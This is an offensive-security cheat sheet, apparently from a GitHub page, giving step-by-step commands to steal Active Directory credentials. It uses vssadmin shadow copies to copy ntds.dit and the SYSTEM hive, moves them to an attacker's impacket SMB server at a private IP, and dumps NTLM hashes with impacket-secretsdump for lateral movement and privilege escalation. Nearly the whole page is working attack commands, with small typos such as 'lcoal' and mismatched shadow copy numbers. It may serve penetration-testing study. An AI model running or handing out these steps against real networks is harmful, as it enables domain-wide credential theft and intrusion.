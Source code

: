 # NTDS.DIR Active Directory

the `ntds.dit` file is the Active Directory (AD) database that stores information about domain objects, including user accounts, passwords (in NTLM hash format) , groups and group membership. Extracting and cracking the NTDS.DIT file allows you to obtain domain credentials, which can be used for lateral movement and privilege escalation

***

#### NTDS.DIT file location

```cmd
%SystemRoot%\NTDS\ntds.dit
```

OR

```cmd
C:\Windows\NTDS\ntds.dit
```

***

#### Step 1: Create a Volume Shadow Copy

1. List existing shadow copies

```cmd
vssadmin List Shadows
```

2. Delete the oldest shadow copy(if needed)

```cmd
vssadmin Delete Shadows /For=C:\oldest
```

3. Create a new shadow copy

```cmd
vssadmin create shadow /for=C:
```

\


#### Step 2: Copy the NTDS.DIT and SYSTEM Files

```cmd
mkdir ntds
```

```cmd
copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds\ntds.dit
```

```cmd
copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy1\windows\system32\config\system c:\ntds\system
```

Alternatively, save the SYSTEM registry hive directly

```cmd
reg save hklm\system c:\ntds\system
```

\


#### Step 3: Transfer Files to Kali Linux

1. Start the SMB Server

```bash
impacket-smbserver -smb2support -user user -password 12345 share /opt/share
```

2. Copy files to the SMB server

```bash
copy ntds.dit \\192.168.29.218\Public\
```

\


#### Step 4: Extract Password Hashes from NTDS.DIT

```bash
impacket-secretsdump -system system -ntds ntds.dit lcoal
```

```bash
impacket-secretsdump -system system -ntds ntds.dit -hashes lmhashes:nthash -outfile ntlm-extract local
```
